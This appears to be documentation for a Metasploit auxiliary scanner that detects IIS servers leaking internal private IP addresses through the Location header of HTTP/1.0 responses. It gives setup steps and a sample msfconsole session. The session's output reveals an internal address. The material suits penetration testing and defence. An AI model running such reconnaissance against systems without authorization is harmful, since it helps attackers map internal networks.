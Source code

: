 ## Vulnerable Application

IIS, under varios conditions, may respond to a request for `/`, `/images`, or `/default.htm` with `HTTP/1.0`
with a 300 HTTP response and a location header that contains an internal (192.x.x.x, 10.x.x.x, or 172.x.x.x)
IP address.

## Verification Steps

  1. Install IIS with at least one IP address on a private LAN
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/iis_internal_ip```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should find the internal IP

## Options

## Scenarios

### IIS with SSL

```
msf5 > use auxiliary/scanner/http/iis_internal_ip
msf5 auxiliary(scanner/http/iis_internal_ip) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 auxiliary(scanner/http/iis_internal_ip) > set rport 443
rport => 443
msf5 auxiliary(scanner/http/iis_internal_ip) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/http/iis_internal_ip) > set verbose true
verbose => true
rmsf5 auxiliary(scanner/http/iis_internal_ip) > run

[*] 2.2.2.2:443     - Requesting GET / HTTP/1.0
[+] Location Header: https://10.1.1.20/home
[+] Result for 2.2.2.2 found Internal IP:  10.1.1.20
[*] 2.2.2.2:443     - Requesting GET /images HTTP/1.0
[*] 2.2.2.2:443     - Requesting GET /default.htm HTTP/1.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
